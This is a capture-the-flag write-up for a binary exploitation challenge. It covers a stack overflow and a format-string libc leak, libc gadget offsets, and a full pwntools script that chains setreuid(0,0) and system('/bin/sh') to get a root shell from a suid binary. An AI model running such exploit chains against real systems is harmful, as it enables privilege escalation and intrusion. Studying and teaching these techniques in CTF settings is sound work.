 # Disgruntled Employee [+Hard]
![](https://img.shields.io/badge/category-pwn4-blue)

This writeup is made up from a combination of the author's insights as well as
Larry's actual solution. Both versions contained the same description and first
steps of solution. The binaries were slightly different, but offsets to and
from libc remained the same. The description follows, making it clear we need
to read the flag.txt file.

> A disgruntled employee was recently fired but has managed to regain access to
> the server. They left some 'flag.txt' file, but we're too scared to read it.
> Can you do it for us?

Running `checksec` on the provided binary, we find the following security settings:
```
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```
From this we gather that the stack isn't executable (NX) so were we to overflow
it we can't just run shellcode, but no canary exists so if there is an
overflow, we can write data do it without causing the program to exit.

Running the provided binary (`./de`) shows a cute graphic with the same
description and a menu prompt:

```
-=[ Product Management System ]=-
[1] Add Product
[2] Print Product List
[3] Exit
Choose option:
```

Taking a look at the disassembly in Radare2 and playing around a bit, we can
find a buffer overflow in the `Name` property where 512 bytes of input can be
written to a buffer of 64 bytes (on the stack):

```
sym.addProduct ();
     ; var char *src @ rbp-0x40

0x0000127e      488d45c0       lea rax, [src]
0x00001282      be00020000     mov esi, 0x200      ; int size
0x00001287      4889c7         mov rdi, rax        ; char *s
0x0000128a      e801feffff     call sym.imp.fgets  ;[5] ; char *fgets(char *s, int size, FILE *stream)
```

Some careful examination of what characters are **actually** (unlike what the
error message proclaims) disallowed from the SKU, we find that `p`[^1], all
uppercase letters and `%` are allowed. This leads to an *exploitable* format
string vulnerability in the `SKU` property which can be seen if we add a
product with an SKU of `%A %A`.

[^1]: This doesn't serve any purpose in a solution but may have helped if
  someone instinctively tried %p.

**Note**: `%A` prints "Hexadecimal floating point, uppercase" which just so
happens (:tm:), with this libc, to give an address inside of libc.

```
Products:
Name: test
SKU: 0X0.000000000000FP-1022 0X0.07F62FD3ED6AP-1022
```

Looking at the memory maps of the process during a run, we find that this
address (`0x7f62fd3ed6a`) is offset from libc by `0x1ec6a0`. From here, finding
offsets to useful gadgets can be done in a variety of ways (Radare2,
one_gadget, pwntools, the libc binary). Below is one set of gadgets that work
(libc being the address returned from printing the products and subtracting
`0x1ec6a0`):
```
   ret = libc + 153209   # ret;          -> return to next instruction
   pop = libc + 158578   # pop rdi; ret; -> clear rdi
    sh = libc + 1799594  # "/bin/sh"     -> insert "/bin/sh" into rdi
system = libc + 349200   # system()      -> call system("bin/sh")
```

From here, all we need to do is send over the 64 bytes to fill the buffer, 16
more as padding, and then our paylod of `<ret> + <pop> + <sh> + <system>` to
call `system("/bin/sh")`. Typing `cat flag.txt` here gives us the flag:

`CTF{W3_4Ll_l0v3_F0rM47_57r1N65_4Nd_r0P_cH41N5}`

What's the difference for (Hard)? Well, if we pay attention carefully, we see
that the original binary we're running after we ssh to the remote server has
the set user ID (suid) bit set. This set the effective user ID (euid) to that
of root. Inside the binary, there's a call to `setresgid` which also sets the
real user ID (ruid) to that of root (technically euid and sgid too). The call
to `/bin/sh` then runs the shell as root and lets the user read the root-owned
flag file.

However, for the (Hard) binary, there isn't a call to `setresgid`, so while the
euid is set to 0 (root), the ruid isn't! `/bin/sh` checks that when it's run,
realizes they're different, and drops privileges, preventing us from reading
the flag. The solution? Set it ourselves of course. Larry did this with
`setreuid(0, 0)` which sets ruid and euid, located at an offset of `1145520`.
Below is his solution using pwntools, with some changes for clarity:

```py
from pwn import *

p = process('./de', env={'LD_LIBRARY_PATH': '.', 'LD_PRELOAD': './libc.so.6'})

libc_so = ELF('./libc.so.6')

### Leak libc ###
# Add Product
p.recvuntil(':')
p.sendline('1')
p.recvuntil(':')
p.sendline('<libc_leak>')
p.recvuntil(':')
p.sendline('%A %A ')
p.recvuntil(':')

# Print products
p.sendline('2')
p.recvuntil('SKU: ')
p.recvuntil(' ')

libc = int(p.recvuntil(' ').decode().replace('0X0.0', '').replace('P-1022 ', '0'), 16) - 1603728 - 413200

ret = libc + 153209 # ret;
pop = libc + 158578 # pop rdi; ret;
sh = libc + 1799594 # "/bin/sh"
setreuid = libc + libc_so.sym['setreuid']
system = libc + libc_so.sym['system']

p.recvuntil('.')
p.sendline()

### PWN ###
p.sendline('1')
p.recvuntil(':')
p.sendline(b'A' * 72 + p64(ret) + p64(pop) + p64(0) + p64(setreuid) + p64(ret) + p64(pop) + p64(sh) + p64(system))
p.recvuntil(':')
p.sendline('1')

p.interactive()
```

Hard flag: `CTF{W3_4Ll_l0v3_F0rM47_57r1N65_4Nd_H4RD_r0P_cH41N5}`

---

I'd like to apolgize for the early bugs with being able to send your input to
the remote server: there wasn't enough testing before the CTF went live. But
hey, that's also what led to the second version! I hope you enjoyed the
challenge and writeup, as delayed as the latter was.
